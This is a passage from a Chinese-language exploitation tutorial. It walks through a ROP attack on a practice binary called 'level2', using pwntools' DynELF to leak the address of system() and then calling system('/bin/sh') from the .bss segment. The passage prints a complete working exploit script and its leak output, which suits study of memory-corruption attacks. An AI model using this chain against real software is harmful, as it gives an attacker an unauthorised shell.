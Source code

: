 因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到。PS：我们会在随后的章节中介绍如何用工具寻找更复杂的gadgets。

整个攻击过程如下：首先通过DynELF获取到system()的地址后，我们又通过read将“/bin/sh”写入到.bss段上，最后再调用system（.bss），执行“/bin/sh”。最终的exp如下:

```python
#!/usr/bin/env python
from pwn import *

elf = ELF('./level2')
plt_write = elf.symbols['write']
plt_read = elf.symbols['read']
vulfun_addr = 0x08048474

def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
    return data

p = process('./level2')
#p = remote('127.0.0.1', 10002)

d = DynELF(leak, elf=ELF('./level2'))

system_addr = d.lookup('system', 'libc')
print "system_addr=" + hex(system_addr)

bss_addr = 0x0804a020
pppr = 0x804855d

payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
#ss = raw_input()

print "\n###sending payload2 ...###"
p.send(payload2)
p.send("/bin/sh\0")
p.interactive()
```



执行结果如下：

#!bash
$ python exp4.py 
[+] Started program './level2'
0x8048000 => 7f454c46
[+] Loading from '/home/mzheng/CTF/level2': Done
0x8049ff8 => 18697eb7
[+] Resolving 'system' in 'libc.so': 0xb77e6918
0x8049f28 => 01000000
0x8049f30 => 0c000000
0x8049f38 => 0d000000
0x8049f40 => f5feff6f
0x8049f48 => 05000000
0x8049f50 => 06000000
0x8049f58 => 0a000000
0x8049f60 => 0b000000
0x8049f68 => 15000000
0x8049f70 => 03000000
0x8049f74 => f49f0408
0xb77e691c => c5eb7db7
0xb77debc5 => 0069203d